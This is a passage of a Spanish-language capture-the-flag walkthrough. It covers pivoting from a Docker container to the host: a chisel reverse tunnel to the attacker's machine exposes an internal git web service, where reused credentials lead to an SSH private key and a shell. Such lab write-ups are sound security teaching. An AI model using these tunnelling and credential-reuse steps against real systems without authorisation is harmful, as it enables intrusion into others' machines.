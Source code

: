 Nos ponemos en escucha en un puerto elegido, en este caso el 9191.

Y conseguimos acceso a un docker.

miramos que otros equipos equipos tenemos alcance y verificamos nuestra ip que nuestra ip del contenedor es `172.17.0.1`. 
![](resource/docker.png)

Seguramente el contenedor esta dentro de la maquina victima que escaneamos con nmap, probamos a ver si tenemos conectividad con el puerto 3000. no tenemos curl, probamos con wget a ver que hay y nos trae un `index.html`.
comprobamos que hay una web levantada en ese puerto, asique procedemos a hacer un reverse port forwarding para traernos a nuestro equipo local el puerto en cuestion.

Para esto utilizaremos la `chisel` en modo servidor con la opcion `--reverse` para traernos el puerto al que tenemos acceso desde el contenedor

```bash
./chisel server --reverse -p 8000
```

En el contenedor levantamos el `chisel` en modo cliente, poniendo la ip de nuestra maquina y el puerto elegido, seguido del `R:` para indicar que es reverso, seguido del puerto que se abrira en el chisel que esta levantado en el servidor, la ip y puerto que queremos traernos. 
```bash
./chisel client 10.10.14.6:8000 R:3000:172.17.0.1:3000
```

Nos metemos con el browser en `http://localhost:3000` y encontramos una pagina para almacenar repositorios tipo git.
Ponemos las credenciales q encontramos previamente y podemos ver un repo llamado `home-backup`. Asi terminamos encontrando una ssh key

![](id_rsa.png)


Las utilizamos para entrar por ssh y asi estamos dentro de la maquina

![](resource/ip_id_dev.png)
